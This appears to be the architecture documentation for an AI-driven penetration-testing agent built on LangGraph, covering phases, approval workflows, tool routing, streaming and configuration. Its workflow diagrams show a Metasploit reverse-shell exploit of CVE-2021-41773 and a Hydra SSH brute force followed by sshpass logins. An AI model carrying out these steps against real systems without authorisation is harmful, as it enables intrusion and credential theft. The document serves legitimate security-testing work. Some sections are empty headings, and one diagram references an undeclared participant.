

# RedAmon Agentic System

## Overview

The **RedAmon Agentic System** is an AI-powered penetration testing orchestrator built on **LangGraph**. It implements the **ReAct (Reasoning and Acting)** pattern to autonomously conduct security assessments while maintaining human oversight through phase-based approval workflows.

---

## Table of Contents

1. [Architecture Overview](#architecture-overview)
2. [Core Components](#core-components)
3. [LangGraph State Machine](#langgraph-state-machine)
4. [Attack Path Classification](#attack-path-classification)
5. [Tool Execution & MCP Integration](#tool-execution--mcp-integration)
6. [WebSocket Streaming](#websocket-streaming)
   - [Guidance Messages](#guidance-messages)
   - [Stop & Resume Execution](#stop--resume-execution)
7. [Frontend Integration](#frontend-integration)
8. [Detailed Workflows](#detailed-workflows)
9. [Multi-Objective Support](#multi-objective-support)
10. [Security & Multi-Tenancy](#security--multi-tenancy)

---

## Architecture Overview


---

## Core Components

### File Structure

| File / Directory | Purpose |
|------------------|---------|
| `orchestrator.py` | Main LangGraph agent with ReAct pattern |
| `state.py` | Pydantic models and TypedDict state definitions |
| `project_settings.py` | Database-driven configuration (fetches from webapp API) |
| `tools.py` | MCP and Neo4j tool management |
| `api.py` | REST API endpoints |
| `websocket_api.py` | WebSocket streaming API |
| `utils.py` | Utility functions |
| `prompts/` | System prompts package (phase-aware, attack-path-specific) |
| `prompts/base.py` | Core ReAct, analysis, and report prompts |
| `prompts/classification.py` | Attack path classification prompt |
| `prompts/cve_exploit_prompts.py` | CVE exploitation workflow & payload guidance |
| `prompts/brute_force_credential_guess_prompts.py` | Brute force / credential attack workflow |
| `prompts/post_exploitation.py` | Post-exploitation prompts (statefull, stateless) |
| `prompts/tool_registry.py` | Single source of truth for tool metadata (names, purposes, args, descriptions) |
| `orchestrator_helpers/` | Helper modules extracted from orchestrator |
| `orchestrator_helpers/config.py` | Session config, checkpointer, thread ID management |
| `orchestrator_helpers/phase.py` | Attack path classification & phase determination |
| `orchestrator_helpers/parsing.py` | LLM response parsing (decisions & inline analysis) |
| `orchestrator_helpers/json_utils.py` | JSON serialization with datetime support |
| `orchestrator_helpers/debug.py` | Graph visualization (Mermaid PNG export) |

### Key Classes


---

## LangGraph State Machine

### State Definition

The agent maintains comprehensive state throughout execution:



### Graph Structure


### Node Responsibilities


---

## Attack Path Classification

When a new objective is detected, the system uses an LLM-based classifier to determine the **attack path type** and **required phase** before execution begins. This drives dynamic tool routing throughout the session.

### Attack Path Types

| Type | Description | Example Objective |
|------|-------------|-------------------|
| `cve_exploit` | CVE-based exploitation using known vulnerabilities | "Exploit CVE-2021-41773 on 192.168.1.100" |
| `brute_force_credential_guess` | Hydra brute force / credential attacks against services | "Try SSH brute force on 192.168.1.100" |

### Classification Flow


### Classification Model

```python
class AttackPathClassification(BaseModel):
    required_phase: Phase           # "informational" or "exploitation"
    attack_path_type: AttackPathType  # "cve_exploit" or "brute_force_credential_guess"
    secondary_attack_path: Optional[str]  # Fallback path if primary fails (e.g., brute_force after CVE fails)
    confidence: float               # 0.0-1.0 confidence score
    reasoning: str                  # Explanation for the classification
    detected_service: Optional[str] # e.g., "ssh", "mysql" (for brute force)
```

The classifier runs with retry logic (exponential backoff, max 3 retries) and falls back to `("cve_exploit", "informational")` on failure.

### Dynamic Tool Routing

Tool availability is now **database-driven** via `TOOL_PHASE_MAP` in project settings. The prompt system uses a **Tool Registry** (`prompts/tool_registry.py`) as the single source of truth for all tool metadata. Dynamic prompt builders generate tool tables, argument references, and phase definitions at runtime — only showing tools that are actually allowed in the current phase.

Based on the classified attack path, `get_phase_tools()` assembles different prompt guidance:

| Phase | CVE Exploit Path | Brute Force Path |
|-------|-----------------|------------------|
| **Informational** | Dynamic recon tool descriptions (from registry) | Dynamic recon tool descriptions (from registry) |
| **Exploitation** | `CVE_EXPLOIT_TOOLS` + payload guidance + no-module fallback (if MSF search failed) | `HYDRA_BRUTE_FORCE_TOOLS` + wordlist guidance |
| **Post-Exploitation** | `POST_EXPLOITATION_TOOLS_STATEFULL` (unified for Meterpreter and shell sessions) | `POST_EXPLOITATION_TOOLS_STATEFULL` (same unified prompt) |

**No-Module Fallback**: When a `search CVE-*` command returns no results in Metasploit, the system injects a fallback workflow (`NO_MODULE_FALLBACK_STATEFULL` or `NO_MODULE_FALLBACK_STATELESS`) that guides the agent to exploit the CVE using `execute_curl`, `execute_code`, `kali_shell`, or `execute_nuclei` instead. This saves ~1,100-1,350 tokens when a module IS found.

### Pre-Exploitation Validation

Before executing Metasploit commands in **statefull CVE exploit** mode, the system validates session configuration:


This prevents exploitation failures by ensuring reverse/bind payload parameters are available before the agent attempts to run Metasploit exploits. Hydra brute force attacks bypass this check since they use `execute_hydra` (stateless) and establish sessions separately via `sshpass` or database clients.

### Credential Detection

During Hydra brute force attacks, the think node's inline output analysis automatically extracts discovered credentials:


---

## Tool Execution & MCP Integration

### Phase-Based Tool Access


### MCP Tool Execution Flow


### MCP Connection Retry Logic

The `MCPToolsManager.get_tools()` method includes retry logic with exponential backoff to handle MCP server startup races:

```
Attempt 1 → fail → wait 10s → Attempt 2 → fail → wait 20s → ... → Attempt 5 → fail → continue without MCP tools
```

This prevents the agent from crash-looping when the Kali sandbox container takes longer to start than the agent.

### Neo4j Query Flow (Text-to-Cypher)


### Metasploit Stateful Execution


---

## WebSocket Streaming

### Message Protocol

```mermaid
flowchart LR
    subgraph Client["Client → Server"]
        INIT[init<br/>{user_id, project_id, session_id}]
        QUERY[query<br/>{question}]
        APPROVAL[approval<br/>{decision, modification}]
        ANSWER[answer<br/>{answer}]
        GUIDANCE[guidance<br/>{message}]
        STOP[stop<br/>{}]
        RESUME[resume<br/>{}]
        PING[ping<br/>{}]
    end

    subgraph Server["Server → Client"]
        CONNECTED[connected]
        THINKING[thinking<br/>{iteration, phase, thought, reasoning}]
        TOOL_START[tool_start<br/>{tool_name, tool_args}]
        TOOL_CHUNK[tool_output_chunk<br/>{tool_name, chunk, is_final}]
        TOOL_COMPLETE[tool_complete<br/>{tool_name, success, output_summary,<br/>actionable_findings, recommended_next_steps}]
        PHASE_UPDATE[phase_update<br/>{current_phase, iteration_count, attack_path_type}]
        TODO_UPDATE[todo_update<br/>{todo_list}]
        APPROVAL_REQ[approval_request<br/>{from_phase, to_phase, reason, risks}]
        QUESTION_REQ[question_request<br/>{question, context, format, options}]
        RESPONSE[response<br/>{answer, task_complete}]
        EXEC_STEP[execution_step<br/>{step summary}]
        TASK_DONE[task_complete<br/>{message, final_phase}]
        GUIDANCE_ACK[guidance_ack<br/>{message, queue_position}]
        STOPPED[stopped<br/>{message, iteration, phase}]
        ERROR[error<br/>{message, recoverable}]
    end
```

### Streaming Event Flow

The think node emits events in a specific order to maintain correct timeline rendering in the frontend. When the think node processes both a completed previous step and a new decision, events are emitted as: `tool_complete` (previous) -> `thinking` (new) -> `tool_start` (new).

```mermaid
sequenceDiagram
    participant C as Client (Browser)
    participant WS as WebSocket API
    participant O as Orchestrator
    participant CB as StreamingCallback

    C->>WS: init {user_id, project_id, session_id}
    WS-->>C: connected

    C->>WS: query {question: "Scan ports on 192.168.1.1"}
    WS->>O: invoke_with_streaming(question, callback)

    Note over O,CB: First iteration (no pending output)
    O->>CB: on_phase_update("informational", 1, "cve_exploit")
    CB-->>WS-->>C: phase_update

    O->>CB: on_thinking(1, "informational", "Need to scan...", "Port scan required")
    CB-->>WS-->>C: thinking

    O->>CB: on_tool_start("naabu", {target: "192.168.1.1"})
    CB-->>WS-->>C: tool_start

    Note over O: Tool executes...
    O->>CB: on_tool_output_chunk("naabu", "22/tcp open\n80/tcp open", true)
    CB-->>WS-->>C: tool_output_chunk

    Note over O,CB: Second iteration (pending output from naabu)
    O->>CB: on_tool_complete("naabu", true, "Found 2 open ports")
    CB-->>WS-->>C: tool_complete (previous step)

    O->>CB: on_thinking(2, "informational", "Found open ports...", "Query graph next")
    CB-->>WS-->>C: thinking (new decision)

    O->>CB: on_tool_start("query_graph", {question: "..."})
    CB-->>WS-->>C: tool_start (new tool)

    O->>CB: on_todo_update([{description: "Analyze services", status: "pending"}])
    CB-->>WS-->>C: todo_update

    Note over O: ... continues until complete ...

    O->>CB: on_response("Scan complete. Found ports 22, 80.", 3, "informational", true)
    CB-->>WS-->>C: response

    O->>CB: on_task_complete("Task completed", "informational", 3)
    CB-->>WS-->>C: task_complete
```

### Guidance Messages

Users can send **guidance messages** while the agent is working (thinking or executing tools). These messages steer/correct the agent's current objective without creating new tasks.


**How it works:**

1. **Frontend**: When `isLoading=true`, the chat input stays enabled. Sending a message routes to `sendGuidance()` instead of `sendQuery()`.
2. **WebSocket API**: `handle_guidance` puts the message into the connection's `asyncio.Queue` and sends back a `guidance_ack` with the queue position.
3. **Orchestrator**: At the start of each `_think_node` invocation, pending guidance messages are drained from the queue and injected into the system prompt as a numbered `## USER GUIDANCE` section.
4. **LLM**: The agent sees the guidance and adjusts its plan accordingly in the next decision.

**Edge cases:**
- Multiple guidance messages before the next think step are all collected and injected as a numbered list
- Guidance sent during tool execution is queued and consumed in the next think step
- Stale guidance from previous queries is drained at the start of each new `handle_query`

### Stop & Resume Execution

Users can **stop** the agent mid-execution and **resume** from the last LangGraph checkpoint.

```mermaid
sequenceDiagram
    participant U as User (Frontend)
    participant WS as WebSocket API
    participant T as asyncio.Task
    participant CP as MemorySaver Checkpoint

    Note over T: Agent task running (background asyncio.Task)

    U->>WS: stop {}
    WS->>T: task.cancel()
    T->>T: CancelledError raised
    Note over CP: State checkpointed at last node boundary
    WS->>WS: Read iteration/phase from checkpoint
    WS-->>U: stopped {message, iteration: 5, phase: "exploitation"}

    Note over U: UI shows resume button (green play icon)

    U->>WS: resume {}
    WS->>WS: Create new background task
    WS->>T: orchestrator.resume_execution_with_streaming()
    T->>CP: graph.astream({}, config) — resume from checkpoint
    Note over T: Agent continues from last node boundary

    T-->>WS-->>U: thinking, tool_start, ... (normal streaming)
```

**How it works:**

1. **Background tasks**: All orchestrator invocations (`handle_query`, `handle_approval`, `handle_answer`) run as `asyncio.create_task()` background tasks, keeping the WebSocket receive loop free for guidance/stop/resume messages.
2. **Stop**: Cancels the active `asyncio.Task`. The `CancelledError` is caught gracefully. LangGraph's `MemorySaver` has already checkpointed state at the last node boundary.
3. **Resume**: Calls `resume_execution_with_streaming()` which re-invokes `graph.astream({}, config)` with empty input. The graph resumes from the checkpoint, re-entering `initialize → think` with the preserved state.
4. **Frontend**: The stop button (red square) appears during loading. After stop, it becomes a resume button (green play). The input is disabled while stopped.

---

## Frontend Integration

### useAgentWebSocket Hook


### UI State Management


### Input Mode Behavior

The chat input adapts based on agent state:

| State | Input Enabled | Send Action | Placeholder | Extra Button |
|-------|--------------|-------------|-------------|--------------|
| **Idle** | Yes | `sendQuery()` | "Ask a question..." | None |
| **Loading** (agent working) | Yes | `sendGuidance()` | "Send guidance to the agent..." | Stop (red square) |
| **Stopped** | No | — | "Agent stopped. Click resume..." | Resume (green play) |
| **Awaiting approval** | No | — | "Respond to the approval request..." | None |
| **Awaiting question** | No | — | "Answer the question above..." | None |
| **Disconnected** | No | — | "Connecting to agent..." | None |

Guidance messages appear in the chat with a purple "Guidance" badge and dashed border styling to distinguish them from regular user messages.

---

## Detailed Workflows

### Complete Agent Execution Flow


### Phase Transition Approval Flow


### Exploitation Workflow: CVE Exploit Path

```mermaid
sequenceDiagram
    participant U as User
    participant A as Agent
    participant MSF as Metasploit Server
    participant T as Target

    U->>A: "Exploit CVE-2021-41773 on 192.168.1.100"

    Note over A: Initialize: LLM classifies → cve_exploit
    Note over A: Phase: Informational
    A->>A: Query graph for target info
    A->>A: Request phase transition to exploitation

    U->>A: Approve transition

    Note over A: Phase: Exploitation (cve_exploit path)
    Note over A: Pre-exploitation: validate LHOST/LPORT

    A->>MSF: search CVE-2021-41773
    MSF-->>A: exploit/multi/http/apache_normalize_path_rce

    A->>MSF: use exploit/multi/http/apache_normalize_path_rce
    MSF-->>A: Module loaded

    A->>MSF: info
    MSF-->>A: Module options and description

    A->>MSF: show targets
    MSF-->>A: 0: Unix Command, 1: Linux Dropper

    A->>MSF: set TARGET 0
    MSF-->>A: TARGET => 0

    A->>MSF: show payloads
    MSF-->>A: Compatible payloads list

    A->>MSF: set PAYLOAD cmd/unix/reverse_bash
    MSF-->>A: PAYLOAD => cmd/unix/reverse_bash

    A->>MSF: set RHOSTS 192.168.1.100
    MSF-->>A: RHOSTS => 192.168.1.100

    A->>MSF: set LHOST 192.168.1.50
    MSF-->>A: LHOST => 192.168.1.50

    A->>MSF: exploit
    MSF->>T: Send exploit payload
    T-->>MSF: Reverse shell connects
    MSF-->>A: "Sending stage..." (streamed via progress chunks)

    Note over A: Session detected via inline output analysis
    A->>MSF: msf_wait_for_session(timeout=120)
    MSF-->>A: Session 1 opened

    A->>A: Request phase transition to post_exploitation
    U->>A: Approve transition

    Note over A: Phase: Post-Exploitation (Meterpreter)
    A->>MSF: msf_session_run(1, "whoami")
    MSF->>T: Execute command in session
    T-->>MSF: "www-data"
    MSF-->>A: Command output
```

### Exploitation Workflow: Brute Force Path

```mermaid
sequenceDiagram
    participant U as User
    participant A as Agent
    participant H as Hydra (execute_hydra)
    participant K as Kali Shell
    participant T as Target

    U->>A: "Try SSH brute force on 192.168.1.100"

    Note over A: Initialize: LLM classifies → brute_force_credential_guess
    Note over A: Phase: Informational
    A->>A: Query graph for target info (ports, services)
    A->>A: Request phase transition to exploitation

    U->>A: Approve transition

    Note over A: Phase: Exploitation (brute_force path)
    Note over A: No LHOST/LPORT needed (Hydra is stateless)

    A->>H: -l ubuntu -P unix_passwords.txt -t 4 -f -e nsr -V ssh://192.168.1.100
    H->>T: Try credentials (parallel, 4 threads)
    T-->>H: [22][ssh] host: 192.168.1.100 login: admin password: password123
    H-->>A: 1 valid password found

    Note over A: Credentials detected via inline output analysis

    A->>K: sshpass -p 'password123' ssh admin@192.168.1.100 'whoami && id'
    K->>T: SSH login with discovered credentials
    T-->>K: "admin" + uid info
    K-->>A: SSH access confirmed

    A->>A: Request phase transition to post_exploitation
    U->>A: Approve transition

    Note over A: Phase: Post-Exploitation (Shell via sshpass)
    A->>K: sshpass -p 'password123' ssh admin@192.168.1.100 'uname -a'
    K->>T: Execute command via SSH
    T-->>K: "Linux target 5.15.0..."
    MSF-->>A: Command output
```

### Q&A Interaction Flow

```mermaid
sequenceDiagram
    participant A as Agent (Think Node)
    participant O as Orchestrator
    participant WS as WebSocket
    participant U as User (Frontend)

    A->>O: Decision: ask_user with question
    O->>O: Store pending_question
    O->>O: Set awaiting_user_question = true
    O->>WS: Send question_request message

    WS->>U: Display question dialog
    Note over U: Dialog shows question, context, format<br/>(text/single_choice/multi_choice)

    Note over O,U: Graph pauses at await_question node (END)

    U->>WS: User provides answer
    WS->>O: Resume with user_question_answer

    O->>O: Create QAHistoryEntry
    O->>O: Add to qa_history
    O->>O: Clear question state
    O->>O: Add answer to messages context

    O->>A: Continue with answer in context

    Note over A: Agent can reference qa_history<br/>in future decisions
```

### Multi-Objective Session Flow

```mermaid
flowchart TB
    subgraph Objective1["Objective #1: Port scan"]
        O1_START[User: "Scan ports on 192.168.1.1"]
        O1_WORK[Agent executes naabu scan]
        O1_DONE[Objective completed]
    end

    subgraph Objective2["Objective #2: Vulnerability scan"]
        O2_START[User: "Check for CVEs"]
        O2_DETECT[Detect new message after completion]
        O2_CREATE[Create new ConversationObjective]
        O2_WORK[Agent queries graph + analyzes]
        O2_DONE[Objective completed]
    end

    subgraph Objective3["Objective #3: Exploit"]
        O3_START[User: "Exploit CVE-2021-41773"]
        O3_PHASE[Phase transition to exploitation]
        O3_WORK[Agent runs Metasploit]
        O3_DONE[Objective completed]
    end

    subgraph State["Persistent State"]
        TRACE[execution_trace: All steps preserved]
        TARGET[target_info: Accumulates across objectives]
        HISTORY[objective_history: Completed objectives]
        QA[qa_history: All Q&A preserved]
    end

    O1_START --> O1_WORK --> O1_DONE
    O1_DONE --> O2_START
    O2_START --> O2_DETECT --> O2_CREATE --> O2_WORK --> O2_DONE
    O2_DONE --> O3_START
    O3_START --> O3_PHASE --> O3_WORK --> O3_DONE

    O1_DONE -.-> |Archive| HISTORY
    O2_DONE -.-> |Archive| HISTORY
    O3_DONE -.-> |Archive| HISTORY

    O1_WORK -.-> TRACE
    O2_WORK -.-> TRACE
    O3_WORK -.-> TRACE

    O1_WORK -.-> TARGET
    O2_WORK -.-> TARGET
    O3_WORK -.-> TARGET

    style Objective1 fill:#90EE90
    style Objective2 fill:#87CEEB
    style Objective3 fill:#FFD700
```

---

## Multi-Objective Support

The system handles continuous conversations where users ask multiple sequential questions:

```mermaid
flowchart LR
    subgraph Detection["New Objective Detection"]
        MSG[New user message arrives]
        CHECK{task_complete<br/>from previous?}
        DIFF{Message differs<br/>from current objective?}
        CREATE[Create new ConversationObjective]
    end

    subgraph Archive["Objective Archival"]
        COMPLETE[Current objective completed]
        OUTCOME[Create ObjectiveOutcome]
        STORE[Add to objective_history]
        PRESERVE[Preserve execution_trace,<br/>target_info, qa_history]
    end

    subgraph Phase["Phase Management"]
        INFER[LLM classifies attack path<br/>+ required_phase]
        DOWN{Downgrade to<br/>informational?}
        AUTO[Auto-transition<br/>no approval needed]
        UP{Upgrade to<br/>exploitation?}
        APPROVAL[Require user approval]
    end

    MSG --> CHECK
    CHECK -->|Yes| CREATE
    CHECK -->|No| DIFF
    DIFF -->|Yes| CREATE

    COMPLETE --> OUTCOME --> STORE --> PRESERVE

    CREATE --> INFER
    INFER --> DOWN
    DOWN -->|Yes| AUTO
    DOWN -->|No| UP
    UP -->|Yes| APPROVAL
```

### Objective State Fields

| Field | Purpose |
|-------|---------|
| `conversation_objectives` | List of all objectives (current + future) |
| `current_objective_index` | Which objective is being worked on |
| `objective_history` | Completed objectives with their outcomes |
| `original_objective` | Backward compatibility with single-objective sessions |

---

## Security & Multi-Tenancy

### Tenant Isolation

```mermaid
flowchart TB
    subgraph Request["Incoming Request"]
        USER[user_id: "user123"]
        PROJ[project_id: "proj456"]
        SESS[session_id: "sess789"]
    end

    subgraph Context["Context Injection"]
        SET_CTX[set_tenant_context<br/>set_phase_context]
        THREAD[Thread-local variables]
    end

    subgraph Neo4j["Neo4j Query Filtering"]
        QUERY[LLM generates Cypher]
        INJECT[Inject tenant filter]
        FILTERED["WHERE n.user_id = 'user123'<br/>AND n.project_id = 'proj456'"]
    end

    subgraph Checkpoint["Session Checkpointing"]
        CONFIG[LangGraph config with thread_id]
        MEMORY[MemorySaver stores state]
        RESUME[Resume from exact state]
    end

    USER --> SET_CTX
    PROJ --> SET_CTX
    SESS --> CONFIG

    SET_CTX --> THREAD
    THREAD --> INJECT
    QUERY --> INJECT --> FILTERED

    CONFIG --> MEMORY
    MEMORY --> RESUME
```

### Phase-Based Access Control

```mermaid
flowchart TB
    subgraph Params["Configuration (project_settings.py)"]
        REQ_EXPL[REQUIRE_APPROVAL_FOR_EXPLOITATION]
        REQ_POST[REQUIRE_APPROVAL_FOR_POST_EXPLOITATION]
        ACT_POST[ACTIVATE_POST_EXPL_PHASE]
        POST_TYPE[POST_EXPL_PHASE_TYPE]
    end

    subgraph Validation["Tool Execution Validation"]
        CHECK_PHASE{Tool allowed<br/>in current phase?}
        ALLOW[Execute tool]
        DENY[Return error:<br/>"Tool not available in phase"]
    end

    subgraph Transition["Phase Transition"]
        TO_INFO[To informational]
        TO_EXPL[To exploitation]
        TO_POST[To post_exploitation]
        AUTO_OK[Auto-approve<br/>safe downgrade]
        NEED_APPROVAL[Require user approval]
        BLOCKED[Block if disabled]
    end

    CHECK_PHASE -->|Yes| ALLOW
    CHECK_PHASE -->|No| DENY

    TO_INFO --> AUTO_OK
    TO_EXPL --> |REQ_EXPL=true| NEED_APPROVAL
    TO_EXPL --> |REQ_EXPL=false| AUTO_OK
    TO_POST --> |ACT_POST=false| BLOCKED
    TO_POST --> |REQ_POST=true| NEED_APPROVAL
    TO_POST --> |REQ_POST=false| AUTO_OK
```

---

## Prompt Token Optimization

### Compact Execution Trace

To reduce token usage as sessions grow longer, the execution trace formatter uses a **compact/full** split:

- **Recent steps** (last 5): Full formatting with complete tool output and analysis — essential for exploitation workflows where the agent must reference previous search/info results.
- **Older steps**: Compact formatting — tool output is omitted, args truncated to 200 chars, analysis truncated to 1,000 chars. The agent retains awareness of what happened without consuming excessive tokens.

### Conditional Prompt Injection

Several prompt sections are only injected when relevant:

| Prompt Section | Condition |
|---------------|-----------|
| No-module fallback workflow | Only after `search CVE-*` returns no results |
| Failure loop warning | Only after 3+ consecutive similar failures |
| Mode decision matrix | Only in exploitation phase for CVE exploit path |
| Session config (LHOST/LPORT) | Only in statefull exploitation mode |

### Failure Loop Detection

The orchestrator monitors the execution trace for repeated failures. When 3+ consecutive steps fail with a similar tool/args pattern, a `## FAILURE LOOP DETECTED` warning is injected into the system prompt, instructing the agent to try a completely different strategy (web_search for alternatives, different tool/payload, or ask_user for guidance).

---

## Error Handling & Resilience

### LLM Response Parsing

```mermaid
flowchart TB
    RESPONSE[LLM Response Text]

    EXTRACT[Extract JSON from response]
    EXTRACT --> PARSE{Parse JSON?}

    PARSE -->|Success| VALIDATE[Pydantic validation]
    PARSE -->|Fail| FALLBACK_JSON[Try extract partial fields]

    VALIDATE -->|Success| DECISION[LLMDecision object]
    VALIDATE -->|Fail| PREPROCESS[Preprocess: remove empty objects<br/>user_question, phase_transition, output_analysis]

    PREPROCESS --> VALIDATE2[Retry validation]
    VALIDATE2 -->|Success| DECISION
    VALIDATE2 -->|Fail| FALLBACK_DECISION[Fallback LLMDecision<br/>action=complete with error]

    FALLBACK_JSON --> FALLBACK_ANALYSIS[Fallback: raw tool output<br/>used as interpretation]
```

### Metasploit Output Cleaning

```mermaid
flowchart LR
    RAW[Raw msfconsole output]

    ANSI[Remove ANSI escape sequences]
    CR[Handle carriage returns]
    CTRL[Remove control characters]
    ECHO[Filter garbled echo lines]
    TIMING[Timing-based output detection<br/>Wait for quiet period]

    RAW --> ANSI --> CR --> CTRL --> ECHO --> TIMING --> CLEAN[Clean output]
```

### Neo4j Query Retry

```mermaid
flowchart TB
    QUESTION[Natural language question]

    GEN[LLM generates Cypher]
    EXEC[Execute query]

    EXEC --> CHECK{Success?}
    CHECK -->|Yes| RESULT[Return results]
    CHECK -->|No| RETRY_CHECK{Retries < MAX?}

    RETRY_CHECK -->|Yes| CONTEXT[Add error context to prompt]
    RETRY_CHECK -->|No| ERROR[Return error message]

    CONTEXT --> GEN
```

---

## Configuration Reference

### Settings Source: `project_settings.py`

Configuration is now **database-driven**. When `PROJECT_ID` and `WEBAPP_API_URL` environment variables are set, settings are fetched from PostgreSQL via the webapp API. Otherwise, `DEFAULT_AGENT_SETTINGS` provides fallback values for standalone usage.

```mermaid
flowchart LR
    DB[(PostgreSQL)] --> API[Webapp API<br/>/api/projects/:id]
    API --> PS[project_settings.py<br/>get_setting]
    PS --> ORCH[Orchestrator]
    PS --> PROMPTS[Prompts]
    PS --> TOOLS[Tools]

    DEFAULTS[DEFAULT_AGENT_SETTINGS] -.->|fallback| PS
```

### Key Parameters

| Parameter | Default | Description |
|-----------|---------|-------------|
| `OPENAI_MODEL` | `"claude-opus-4-6"` | LLM model for reasoning |
| `MAX_ITERATIONS` | `100` | Maximum ReAct loop iterations |
| `EXECUTION_TRACE_MEMORY_STEPS` | `100` | How many steps to include in LLM context |
| `TOOL_OUTPUT_MAX_CHARS` | `20000` | Truncate tool output for LLM analysis |
| `REQUIRE_APPROVAL_FOR_EXPLOITATION` | `true` | Require user approval for exploitation phase |
| `REQUIRE_APPROVAL_FOR_POST_EXPLOITATION` | `true` | Require user approval for post-exploitation |
| `ACTIVATE_POST_EXPL_PHASE` | `true` | Enable post-exploitation phase |
| `POST_EXPL_PHASE_TYPE` | `"statefull"` | `"stateless"` or `"statefull"` session mode |
| `LHOST` | `""` | Attacker IP for reverse payloads (empty = bind mode) |
| `LPORT` | `null` | Attacker port for reverse payloads |
| `BIND_PORT_ON_TARGET` | `4444` | Port opened on target for bind payloads |
| `PAYLOAD_USE_HTTPS` | `false` | Use HTTPS for staged payloads |
| `HYDRA_ENABLED` | `true` | Enable/disable THC Hydra brute force tool |
| `HYDRA_THREADS` | `16` | Parallel connections per target (-t). SSH max 4, RDP max 1 |
| `HYDRA_WAIT_BETWEEN_CONNECTIONS` | `0` | Seconds between connections per task (-W) |
| `HYDRA_CONNECTION_TIMEOUT` | `32` | Max seconds to wait for response (-w) |
| `HYDRA_STOP_ON_FIRST_FOUND` | `true` | Stop on first valid credential (-f) |
| `HYDRA_EXTRA_CHECKS` | `"nsr"` | Extra checks: n=null, s=login-as-pass, r=reversed (-e) |
| `HYDRA_VERBOSE` | `true` | Show each login attempt (-V) |
| `HYDRA_MAX_WORDLIST_ATTEMPTS` | `3` | Max wordlist strategies before giving up |
| `INFORMATIONAL_SYSTEM_PROMPT` | `""` | Custom system prompt injected during informational phase |
| `EXPL_SYSTEM_PROMPT` | `""` | Custom system prompt injected during exploitation phase |
| `POST_EXPL_SYSTEM_PROMPT` | `""` | Custom system prompt injected during post-exploitation phase |
| `CYPHER_MAX_RETRIES` | `3` | Neo4j text-to-Cypher retry limit |
| `CREATE_GRAPH_IMAGE_ON_INIT` | `false` | Export LangGraph structure as PNG on startup |
| `TOOL_PHASE_MAP` | *(see below)* | Per-tool phase access control (DB-driven) |

#### Default TOOL_PHASE_MAP

```json
{
  "query_graph": ["informational", "exploitation", "post_exploitation"],
  "execute_curl": ["informational", "exploitation", "post_exploitation"],
  "execute_naabu": ["informational", "exploitation", "post_exploitation"],
  "execute_nmap": ["informational", "exploitation", "post_exploitation"],
  "execute_nuclei": ["informational", "exploitation", "post_exploitation"],
  "kali_shell": ["informational", "exploitation", "post_exploitation"],
  "execute_code": ["exploitation", "post_exploitation"],
  "metasploit_console": ["exploitation", "post_exploitation"],
  "msf_restart": ["exploitation", "post_exploitation"],
  "web_search": ["informational", "exploitation", "post_exploitation"]
}
```

### Environment Variables

| Variable | Required | Description |
|----------|----------|-------------|
| `OPENAI_API_KEY` | Yes | OpenAI API key for LLM calls |
| `NEO4J_URI` | Yes | Neo4j connection URI |
| `NEO4J_USER` | Yes | Neo4j username |
| `NEO4J_PASSWORD` | Yes | Neo4j password |
| `PROJECT_ID` | For DB settings | Project ID to fetch settings for |
| `WEBAPP_API_URL` | For DB settings | Webapp base URL (e.g., `http://localhost:3000`) |
| `MCP_NETWORK_RECON_URL` | No | Network recon MCP server URL (default: `http://host.docker.internal:8000/sse`) |
| `MCP_NMAP_URL` | No | Nmap MCP server URL (default: `http://host.docker.internal:8004/sse`) |
| `MCP_METASPLOIT_URL` | No | Metasploit MCP server URL (default: `http://host.docker.internal:8003/sse`) |
| `MCP_NUCLEI_URL` | No | Nuclei MCP server URL (default: `http://host.docker.internal:8002/sse`) |

---

## Running the System

### MCP Server Architecture

The MCP layer runs inside a single Kali Linux Docker container with multiple FastMCP servers:

| Server | Port | Tools | Description |
|--------|------|-------|-------------|
| `network_recon` | 8000 | `execute_curl`, `execute_naabu`, `kali_shell`, `execute_code` | HTTP client, port scanner, general shell, code execution |
| `nuclei` | 8002 | `execute_nuclei` | CVE verification & exploitation via YAML templates |
| `metasploit` | 8003 | `metasploit_console`, `msf_restart`, `msf_session_run`, `msf_wait_for_session`, `msf_list_sessions` | Exploitation framework |
| `nmap` | 8004 | `execute_nmap` | Deep network scanning, service detection, NSE scripts |

### Start MCP Servers

```bash
cd mcp/
docker-compose up -d
```

### Start Agentic API

```bash
cd agentic/
docker-compose up -d
# Or for development:
uvicorn api:app --reload --port 8080
```

### WebSocket Connection

```javascript
const ws = new WebSocket('ws://localhost:8080/ws');

// Authenticate
ws.send(JSON.stringify({
  type: 'init',
  payload: { user_id: 'user123', project_id: 'proj456', session_id: 'sess789' }
}));

// Send query
ws.send(JSON.stringify({
  type: 'query',
  payload: { question: 'Scan ports on 192.168.1.1' }
}));

// Send guidance while agent is working
ws.send(JSON.stringify({
  type: 'guidance',
  payload: { message: 'Focus on port 22 first' }
}));

// Stop agent execution
ws.send(JSON.stringify({ type: 'stop', payload: {} }));

// Resume from last checkpoint
ws.send(JSON.stringify({ type: 'resume', payload: {} }));

// Handle responses
ws.onmessage = (event) => {
  const msg = JSON.parse(event.data);
  console.log(msg.type, msg.payload);
};
```

---

## Summary

The RedAmon Agentic System provides:

1. **Autonomous Reasoning** - LangGraph-based ReAct pattern for intelligent decision making
2. **Phase-Based Security** - Controlled progression through informational → exploitation → post-exploitation
3. **Attack Path Classification** - LLM-based classification of objectives into CVE exploit or brute force paths, with secondary fallback path support
4. **Dynamic Tool Registry** - Single source of truth (`tool_registry.py`) drives all prompt generation; tool availability tables, argument references, and phase definitions are built at runtime from DB-driven `TOOL_PHASE_MAP`
5. **Human Oversight** - Approval workflows for risky phase transitions and pre-exploitation validation
6. **Real-Time Feedback** - WebSocket streaming with progress chunks for long-running commands
7. **Live Guidance** - Send steering messages while the agent works, injected into the next think step
8. **Stop & Resume** - Interrupt agent execution and resume from the last LangGraph checkpoint
9. **Multi-Tenancy** - Isolated sessions with tenant-filtered data access
